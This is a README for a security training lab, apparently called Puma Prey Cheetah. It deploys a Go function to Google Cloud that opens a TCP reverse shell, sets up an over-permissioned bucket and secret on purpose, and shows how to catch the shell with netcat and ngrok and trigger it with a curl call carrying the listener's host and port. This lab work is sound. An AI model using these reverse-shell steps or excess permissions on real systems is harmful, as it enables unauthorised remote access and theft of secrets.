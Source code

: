 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install

# Optional: Create protected storage bucket that the function role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless deploy
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private storage bucket. The function role will have unnecessary permissions to access the bucket.

To upload a secret image to the bucket, run the following:

```bash
gcloud auth activate-service-account --key-file /PATH/TO/.gcloud/keyfile.json
gsutil cp /PATH/TO/assets/* "gs://cheetah-$BUCKET_SUFFIX"
```

You can also use Cheetah to demonstrate how a compromised function could be used to access the GCP Secret Manager. In order to set this up:

* Enable "Secret Manager API" in the [API dashboard](https://console.cloud.google.com/apis/dashboard).
* Recreate your service account and add the "Secret Manager Admin" role.
* As [the Serverless Framework always uses the App Engine default service account](https://github.com/serverless/serverless-google-cloudfunctions/issues/161), 
* Run the following:

```bash
gcloud config set project YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID # If you receive a warning like the following, you can just ignore it: WARNING: You do not appear to have access to project [...] or it does not exist.

gcloud secrets create cheetah-database-password --replication-policy automatic
echo -n 'RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu' | gcloud secrets versions add cheetah-database-password --data-file="-"
gcloud secrets add-iam-policy-binding cheetah-database-password --member serviceAccount:YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.

